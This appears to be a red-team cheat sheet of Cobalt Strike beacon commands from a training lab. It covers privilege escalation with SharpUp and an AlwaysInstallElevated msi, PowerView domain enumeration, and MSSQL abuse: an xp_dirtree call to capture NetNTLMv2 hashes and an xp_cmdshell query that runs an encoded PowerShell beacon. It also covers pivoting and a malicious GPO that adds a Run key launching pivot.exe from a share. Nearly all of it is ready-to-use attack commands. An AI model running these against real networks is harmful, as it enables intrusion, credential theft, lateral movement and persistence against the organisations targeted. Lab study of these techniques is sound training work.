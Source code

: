 # RTO CheatSheet

## Persistence

### COM Hijacking

<TODO>
  
## PrivEsc
  
### Seatbelt
  
https://github.com/GhostPack/Seatbelt
  
Sample usage:
  
> beacon> execute-assembly C:\Tools\Seatbelt\Seatbelt\bin\Debug\Seatbelt.exe -group=system
  
### SharpUp

https://github.com/GhostPack/SharpUp

Sample usage:
  
> beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Debug\SharpUp.exe
> 
> === Modifiable Services ===
> 
>  Name             : Vuln-Service-2
>
>  DisplayName      : Vuln-Service-2
>
>  Description      : 
>
>  State            : Running
>
>  StartMode        : Auto
>
>  PathName         : "C:\Program Files\Vuln Services\Service 2.exe"

Detects:
  - Modifiable Service
  - AlwaysInstallElevated flags in Registry
  
#### Weaponized

##### AlwaysInstallElevated - Install msi package file

> beacon> run msiexec /i BeaconInstaller.msi /q /n
  
## Domain Enumeration
  
### PowerView
  
#### Setup

> beacon> powershell-import C:\Tools\PowerSploit\Recon\PowerView.ps1
  
#### Usages
  
Retrieve Domain information, parameter is optional:
  
> beacon> powershell Get-Domain -Domain <Domain>

Retrieve Domain Controllers and further Domain information:

> beacon> powershell Get-DomainController | select Forest, Name, OSVersion | fl
  
Retrieve Forest information, parameter is optional:
  
> beacon> powershell Get-ForestDomain -Forest [Forest]
  
Get useful information about domain policies like password policies e.g
  
> beacon> powershell Get-DomainPolicyData | select -ExpandProperty SystemAccess
  
Get User information:
  
> beacon> powershell Get-DomainUser -Identity [username] -Properties DisplayName, MemberOf | fl
  
Get Available Shares (important for lateral movement and GPO Abuses):
  
> beacon> powershell Find-DomainShare -CheckShareAccess
  
## MSSQL
  
### Enum

Import PowerUpSQL

Execute following statements from Domain-User context (AD Authentication on MSSQL hosts):

Enum SQL Instance:

> beacon> powershell Get-SQLInstanceDomain
  
Test connection:

> beacon> powershell Get-SQLConnectionTest -Instance "srv-1.dev.cyberbotic.io,1433" | fl

Retrieve additional Instance Information:
 
> beacon> powershell Get-SQLServerInfo -Instance "srv-1.dev.cyberbotic.io,1433"
  
Test execution:

> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "select @@servername"
  
Proxychains for direct connection:
  
> root@kali:~# proxychains python3 /usr/local/bin/mssqlclient.py -windows-auth DOMAIN/USER@TARGET
  
NetNTLMv2 via xp_dirtree (Inveigh on Host in target network, or smbserver on Kali with WinDivert + rportfwd):
  
> beacon> powershell Get-SQLQuery -Instance "INSTANCE,1433" -Query "EXEC xp_dirtree '\\IP\pwn', 1, 1"

Query to execute beacon on the instance directly:

> SELECT * FROM OPENQUERY("[targetserver]", 'select @@servername; exec xp_cmdshell ''powershell -enc [EncodedString]''');

## Pivoting

- Right click on running beacon -> pivoting
- Create pivoting listener (example, port 4444)

add firewall rule:
  
> beacon> run netsh advfirewall firewall add rule name="Allow 4444" dir=in action=allow protocol=TCP localport=4444

## GPO Abuse
  
HINT:
  
> Worked best, to install the module with a local admin, that is NOT the domain user (on the same machine) who is allowed to create and update the GPO
  
Check if Module is installed:
  
> beacon> powershell Get-Module -List -Name GroupPolicy | select -expand ExportedCommands
  
if its not, use a beacon with local admin rights and install (takes some time, wait for output):
  
> beacon> powershell Install-WindowsFeature -Name GPMC
  
### Create Evil GPO
  
> beacon> powershell New-GPO -Name "Evil GPO" | New-GPLink -Target "OU=Workstations,DC=dev,DC=sample,DC=domain"
  
Create Autorun key on target hosts:
  
> beacon> powershell Set-GPPrefRegistryValue -Name "Evil GPO" -Context Computer -Action Create -Key "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName "Updater" -Value "C:\Windows\System32\cmd.exe /c \\public\share\pivot.exe" -Type ExpandString
